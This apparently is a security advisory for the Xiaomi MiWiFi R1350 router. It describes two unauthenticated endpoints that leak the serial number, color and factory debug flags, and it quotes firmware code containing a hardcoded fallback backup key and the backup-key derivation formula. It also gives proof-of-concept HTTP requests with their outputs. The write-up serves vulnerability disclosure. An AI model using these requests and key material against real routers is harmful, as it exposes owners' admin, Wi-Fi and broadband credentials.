





# Xiaomi MiWiFi R1350 Router

- Vendor: Xiaomi
- Product: Xiaomi AIoT Router R1350 (AC1200)
- Firmware Version: 1.0.31 (miwifi_r1350_firmware_7449d_1.0.31.bin, QSDK / OpenWrt, MIPS32 big-endian)
- Vulnerability Type: Unauthenticated Disclosure of Security-Relevant Factory Data / Backup Key Material (CWE-200)

## Overview

Two unauthenticated endpoints (route flag `0x09` = noauth + noinit) on the Xiaomi MiWiFi R1350 (firmware 1.0.31) disclose factory-partition data and device security state to any LAN client:

```
GET /cgi-bin/luci/api/xqsystem/bdata     -> full "bdata show" output (SN, color, factory flags, ...)
GET /cgi-bin/luci/api/xqsystem/fac_info  -> telnet/ssh/uart enable flags, factory mode, SSIDs
```

The disclosed fields are not mere identifiers: the firmware itself derives the **configuration-backup encryption key** from `SN` + `color` (+ device MACs), and Xiaomi's official **SSH root password** is derived from the device `SN`. The leak therefore provides direct key material for offline decryption of config backups and for computing root credentials, with `fac_info` serving as the reconnaissance channel for which debug entry points are open.

## Vulnerability Details

### 1. Unauthenticated exposure

`/usr/lib/lua/luci/controller/api/xqsystem.lua` (registration, flag `0x09`):



```lua
entry({"api", "xqsystem", "fac_info"}, call("getFacInfo"), (""), 101, 0x09)
entry({"api", "xqsystem", "bdata"},    call("getBdataInfo"), (""), 101, 0x09)
```

`/usr/lib/lua/xiaoqiang/util/XQSysUtil.lua:1056` returns **every** key/value pair of the bdata partition without filtering:



```lua
function bdataInfo()
    local str = LuciUtil.exec("bdata show")
    ... -- parses "key=value" lines into a table, no whitelist
    LuciHttp.write_json(XQSysUtil.bdataInfo())
```

Confirmed firmware references to the sensitive keys: `SN` (`XQConfigs.lua:116 GET_BDATA_SN`, `XQBackup.lua:13`), `color` (`XQBackup.lua:14`), `CountryCode` (`XQCountryCode.lua:88`), plus factory/SSID keys.

### 2. Impact chain A — configuration-backup decryption (firmware code, verbatim)

`/usr/lib/lua/xiaoqiang/module/XQBackup.lua:7-19`:



```lua
local function generate_key()
    local key = "7kl4n23mnm678m890s9dfklnmdqmwenq"        -- hardcoded fallback key
    sn    = string.sub(XQFunction.bdataGet("SN","0529486"), 1, 5)   -- <- leaked by /bdata
    color = string.sub(XQFunction.bdataGet("color","1000"), 1, 3)   -- <- leaked by /bdata
    mac1  = getmac | 1st MAC (lowercase, no colons)                 -- <- visible in Ethernet frames
    mac2  = getmac | 2nd MAC                                        -- <- sequential factory MACs
    if sn ~= nil and color ~= nil and mac1 ~= nil and mac2 ~= nil then
        key = sn .. mac1 .. mac2 .. color                           -- 32-byte backup key
    end
    return key
end
```

The encrypted backup (`/api/misystem/backup`) bundles, per `_mi_basic_info()` / `_mi_wifi_info()` / `_mi_network_info()` in the same file:

- **admin account password hash** (`uci account.common.admin`)
- **both Wi-Fi SSIDs and passwords**
- **WAN configuration incl. PPPoE broadband username/password**

With `SN` and `color` from the unauthenticated endpoint and the device MACs observable at Layer 2 (factory MACs are sequential), an attacker who later obtains any backup file (user-shared, cloud-synced, or exported through a subsequent authenticated compromise) can decrypt it offline. If bdata is empty the firmware falls back to a **single hardcoded key shared by all devices**.

### 3. Impact chain B — SN-derived root password reconnaissance

Xiaomi's official SSH/telnet root password is a known function of the device `SN` (publicly reversed, calculators available). `fac_info` tells the attacker which debug channels are currently enabled before any attempt:

```json
{"telnet":false,"init":true,"wl0_ssid":"...","ssh":false,"version":"1.0.31","facmode":true,"4kblock":false,"wl1_ssid":"...","uart":false}
```

On factory-mode units (`facmode:true`, telnet enabled) the leaked `SN` converts directly into root login credentials.

## Proof of Concept

```http
GET /cgi-bin/luci/api/xqsystem/bdata HTTP/1.1
Host: 192.168.31.1

```

```json
{" CountryCode":"CN","wl0_ssid":"Xiaomi_POC_5G","SN":"H2D0901907235","factory":"RTYPE RCC"}
```

```http
GET /cgi-bin/luci/api/xqsystem/fac_info HTTP/1.1
Host: 192.168.31.1

```

```json
{"telnet":false,"init":true,"wl0_ssid":"Xiaomi_POC_5G","ssh":false,"version":"1.0.31","facmode":true,"4kblock":false,"wl1_ssid":"Xiaomi_POC_2G","uart":false}
```

Key-material derivation an attacker performs with the leaked values (per `XQBackup.lua`):

```
key = SN[0:5] + mac1(12 hex) + mac2(12 hex) + color[0:3]
```

## Impact

An unauthenticated LAN attacker obtains the exact material (`SN`, `color`) from which the device derives (a) the encryption key of configuration backups containing the admin password hash, Wi-Fi passwords and PPPoE broadband credentials, and (b) the SN-derived official root password used by telnet/SSH, with `fac_info` revealing which entry points are open. This elevates the leak from "factory metadata" to **credential-material disclosure** and materially weakens the secrecy of every secret stored on the device.

## Reproduction Result





Both endpoints were dynamically verified against the firmware emulated with qemu-mips + chroot (original nginx → fcgi-cgi → LuCI stack): requests carried no session token and the handler output was returned verbatim as shown above (bdata output fixed up via a wrapper because the emulated unit has no factory NVRAM partition). The `XQBackup.generate_key()` derivation cited in Impact chain A is firmware code confirmed by static analysis of `/usr/lib/lua/xiaoqiang/module/XQBackup.lua:7-19`.
